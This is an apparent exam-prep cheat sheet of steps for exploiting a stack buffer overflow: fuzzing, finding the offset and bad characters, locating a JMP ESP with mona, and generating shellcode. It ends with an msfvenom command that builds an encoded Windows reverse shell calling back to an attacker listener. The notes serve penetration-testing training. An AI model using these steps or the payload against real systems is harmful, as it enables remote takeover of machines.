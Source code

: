 1. Fuzz
- Use Spiking
- Use simple python script
2. Find offset
- Use metasploit `pattern_create` and `pattern offset`
```
msf-pattern_create -l 800
msf-pattern_offset -l 800 -q 42306142
```
3. Find bad character
- Immunity https://bulbsecurity.com/finding-bad-characters-with-immunity-debugger-and-mona-py/
4. Find module and JMP ESP
- Use metasploit nasm_shell
```
msf-nasm_shell
jmp esp
add eax,12
```
- Use debugger and mona to find JMP ESP
```
!mona modules
!mona find -s “\xff\xe4” -m “libspp.dll”,
```
5. Create shellcode
 ```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.119.199 LPORT=443 -f py –e x86/shikata_ga_nai -b "\x00\x0a\x0d\x25\x26\x2b\x3d"
 ```
